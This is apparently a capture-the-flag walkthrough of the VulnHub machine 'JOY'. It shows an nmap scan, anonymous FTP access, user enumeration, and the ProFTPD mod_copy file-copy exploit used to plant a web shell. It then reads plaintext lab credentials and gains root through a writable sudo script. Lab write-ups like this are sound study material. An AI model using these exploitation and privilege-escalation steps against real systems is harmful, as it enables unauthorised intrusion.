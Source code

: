 https://esc.sh/blog/proftp-vulnerability-could-allow-an-attacker-to-gain-a-shell-in-your-server/
https://www.hackingarticles.in/digitalworld-local-joy-vulnhub-walkthrough/

# Scan

    ┌──(kali㉿kali)-[~]
    └─$ sudo nmap -sT -A -Pn -n -p- 192.168.56.105
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 16:11 CEST
    Nmap scan report for 192.168.56.105
    Host is up (0.00029s latency).
    Not shown: 65523 closed ports
    PORT    STATE SERVICE     VERSION
    21/tcp  open  ftp         ProFTPD 1.2.10
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | drwxrwxr-x   2 ftp      ftp          4096 Jan  6  2019 download
    |_drwxrwxr-x   2 ftp      ftp          4096 Jan 10  2019 upload
    22/tcp  open  ssh         Dropbear sshd 0.34 (protocol 2.0)
    25/tcp  open  smtp        Postfix smtpd
    |_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
    | ssl-cert: Subject: commonName=JOY
    | Subject Alternative Name: DNS:JOY
    | Not valid before: 2018-12-23T14:29:24
    |_Not valid after:  2028-12-20T14:29:24
    |_ssl-date: TLS randomness does not represent time
    80/tcp  open  http        Apache httpd 2.4.25
    | http-ls: Volume /
    | SIZE  TIME              FILENAME
    | -     2016-07-19 20:03  ossec/
    |_
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Index of /
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: AUTH-RESP-CODE PIPELINING CAPA TOP STLS SASL RESP-CODES UIDL
    |_ssl-date: TLS randomness does not represent time
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: capabilities ENABLE more have post-login Pre-login LITERAL+ LOGINDISABLEDA0001 OK listed SASL-IR IDLE IMAP4rev1 ID STARTTLS LOGIN-REFERRALS
    |_ssl-date: TLS randomness does not represent time
    445/tcp open  netbios-ssn Samba smbd 4.5.12-Debian (workgroup: WORKGROUP)
    465/tcp open  smtp        Postfix smtpd
    |_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
    | ssl-cert: Subject: commonName=JOY
    | Subject Alternative Name: DNS:JOY
    | Not valid before: 2018-12-23T14:29:24
    |_Not valid after:  2028-12-20T14:29:24
    |_ssl-date: TLS randomness does not represent time
    587/tcp open  smtp        Postfix smtpd
    |_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
    | ssl-cert: Subject: commonName=JOY
    | Subject Alternative Name: DNS:JOY
    | Not valid before: 2018-12-23T14:29:24
    |_Not valid after:  2028-12-20T14:29:24
    |_ssl-date: TLS randomness does not represent time
    993/tcp open  ssl/imaps?
    | ssl-cert: Subject: commonName=JOY/organizationName=Good Tech Pte. Ltd/stateOrProvinceName=Singapore/countryName=SG
    | Not valid before: 2019-01-27T17:23:23
    |_Not valid after:  2032-10-05T17:23:23
    |_ssl-date: TLS randomness does not represent time
    995/tcp open  ssl/pop3s?
    | ssl-cert: Subject: commonName=JOY/organizationName=Good Tech Pte. Ltd/stateOrProvinceName=Singapore/countryName=SG
    | Not valid before: 2019-01-27T17:23:23
    |_Not valid after:  2032-10-05T17:23:23
    |_ssl-date: TLS randomness does not represent time
    MAC Address: 08:00:27:4A:17:2D (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Network Distance: 1 hop
    Service Info: Hosts: The,  JOY.localdomain, 127.0.1.1, JOY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: -40m01s, deviation: 4h37m07s, median: 1h59m57s
    |_nbstat: NetBIOS name: JOY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.5.12-Debian)
    |   Computer name: joy
    |   NetBIOS computer name: JOY\x00
    |   Domain name: \x00
    |   FQDN: joy
    |_  System time: 2021-04-17T00:11:39+08:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-04-16T16:11:39
    |_  start_date: N/A

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.29 ms 192.168.56.105

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 44.14 seconds


# FTP anonymous connexion

Get Patrick's Directory


    └─$ ftp 192.168.110.62
    Connected to 192.168.110.62.
    220 The Good Tech Inc. FTP Server
    Name (192.168.110.62:kali): anonymous
    331 Anonymous login ok, send your complete email address as your password
    Password:
    230 Anonymous access granted, restrictions apply
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> cd upload
    ftp> get directory
    └─$ cat directory
    -rw-r--r--  1 patrick patrick  407 Jan 27  2019 version_control

# Real users

    └─$ enum4linux -a 192.168.56.105
    Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.
    [+] Enumerating users using SID S-1-22-1 and logon username '', password ''
    S-1-22-1-1000 Unix User\patrick (Local User)
    S-1-22-1-1001 Unix User\ftp (Local User)

# Exploit ProFTPd 1.3.5 - File Copy 

<https://www.exploit-db.com/exploits/36742>


    └─$ telnet 192.168.56.105 21   
    Trying 192.168.56.105...
    Connected to 192.168.56.105.
    Escape character is '^]'.
    220 The Good Tech Inc. FTP Server
    site cpfr /home/patrick/version_control
    350 File or directory exists, ready for destination name
    site cpto /home/ftp/upload/version_control
    250 Copy successful
    └─$ cat version_control                                     
    Version Control of External-Facing Services:

    Apache: 2.4.25
    Dropbear SSH: 0.34
    ProFTPd: 1.3.5
    Samba: 4.5.12

    We should switch to OpenSSH and upgrade ProFTPd.

    Note that we have some other configurations in this machine.
    1. The webroot is no longer /var/www/html. We have changed it to /var/www/tryingharderisjoy.
    2. I am trying to perform some simple bash scripting tutorials. Let me see how it turns out.


## Upload reverse shell


    └─$ telnet 192.168.56.105 21   
    Trying 192.168.56.105...
    Connected to 192.168.56.105.
    Escape character is '^]'.
    220 The Good Tech Inc. FTP Server
    site cpfr /home/ftp/upload/shell.php
    350 File or directory exists, ready for destination name
    site cpto /var/www/tryingharderisjoy/shell.php
    250 Copy successful

## Escale privileges

    www-data@JOY:/var/www/tryingharderisjoy/ossec$ cat patricksecretsofjoy
    cat patricksecretsofjoy
    credentials for JOY:
    patrick:apollo098765
    root:howtheheckdoiknowwhattherootpasswordis
    www-data@JOY:/var/www/tryingharderisjoy/ossec$ su patrick
    su patrick
    Password: apollo098765
    patrick@JOY:~$ sudo -l
    sudo -l
    Matching Defaults entries for patrick on JOY:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    User patrick may run the following commands on JOY:
        (ALL) NOPASSWD: /home/patrick/script/test
    patrick@JOY:~$ cat .bash_history
    chmod 000 script
    patrick@JOY:~$ ls -al
    d---------  2 root    root     4096 Jan  9  2019 script

## Get root

    patrick@JOY:~$ mv script s1
    mv script s1
    patrick@JOY:~$ mkdir script
    mkdir script
    patrick@JOY:~$ cd script
    cd script
    patrick@JOY:~/script$ ls
    ls
    patrick@JOY:~/script$ echo '#!/bin/bash' > test    
    echo '#!/bin/bash' > test
    patrick@JOY:~/script$ echo '/bin/bash' >> test
    echo '/bin/bash' >> test
    patrick@JOY:~/script$ chmod +x test
    chmod +x test
    patrick@JOY:~/script$ sudo /home/patrick/script/test
    sudo /home/patrick/script/test
    root@JOY:/home/patrick/script# id
    id
    uid=0(root) gid=0(root) groups=0(root)

